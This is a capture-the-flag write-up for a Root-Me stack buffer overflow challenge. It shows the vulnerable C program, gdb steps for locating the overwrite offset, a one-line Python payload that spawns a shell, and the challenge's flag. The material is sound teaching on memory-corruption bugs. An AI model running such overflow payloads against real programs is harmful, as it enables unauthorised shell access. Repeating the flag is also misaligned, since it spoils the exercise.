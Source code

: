 # ELF x86 - Stack buffer overflow basic 1
- Point: 5pts
- Author: [Lyes](https://www.root-me.org/Lyes?lang=en),  25 March 2015
- Level: Very Easy <br><br>
![image](https://user-images.githubusercontent.com/48288606/141502028-c005e26c-0784-400c-a79d-14c12a79e000.png)
## Write-up:
Look at the code:
```
#include <unistd.h>
#include <sys/types.h>
#include <stdlib.h>
#include <stdio.h>
 
int main()
{
 
  int var;
  int check = 0x04030201;
  char buf[40];
 
  fgets(buf,45,stdin);
 
  printf("\n[buf]: %s\n", buf);
  printf("[check] %p\n", check);
 
  if ((check != 0x04030201) && (check != 0xdeadbeef))
    printf ("\nYou are on the right way!\n");
 
  if (check == 0xdeadbeef)
   {
     printf("Yeah dude! You win!\nOpening your shell...\n");
     setreuid(geteuid(), geteuid());
     system("/bin/bash");
     printf("Shell closed! Bye.\n");
   }
   return 0;
}
```
- If we can change the change check's value from **"0x04030201"** to **"0xdeadbeef"**, we can pass the challenge by opening the shell. <br>
- Var **check** is declared first, after **buf**; so **check** is nearer to the top of the stack than **buf**, which makes it able to override the value of **check**.<br>
- Disassembling the main function and we set break point at the **fgets function line**. Then run the program

![image](https://user-images.githubusercontent.com/48288606/146743588-ed79be7a-e9f6-48b8-9aa2-a14343cbf808.png)

- Try inputing `aaaa` and watch that value's address.

![image](https://user-images.githubusercontent.com/48288606/146744069-794864a9-8906-4e64-a346-9bb1abda2bcb.png)

- Here, we examine the address of **aaaa** and in range 20 adjacent addressand  we see that our **check** 's value is at **0xbffffb0c**. And our input **aaaa** is at **0xbffffae4**. So we need the calculate the distance just write the desired value to the proper position. 

![image](https://user-images.githubusercontent.com/48288606/146745301-7402ef93-29aa-4605-a747-d7eac50acbd0.png)

### Solution:
- Fill the first 40 bytes of **buf** with arbitrary character, then with the satisfied value **"0xdeadbeef"**. <br>
Command: `python -c "print('a'*40 +'\xef\xbe\xad\xde')"| ./ch13` <br>
But as we see, it just open the shell and close it because there is no input. [Read here ?](https://www.root-me.org/?page=forum&id_thread=10116)<br>
As suggested, the final payload: `(python -c "print('a'*40 +'\xef\xbe\xad\xde')";cat) | ./ch13 `<br>
Then just need to read the `.passwd` file.

Pass: 1w4ntm0r3pr0np1s


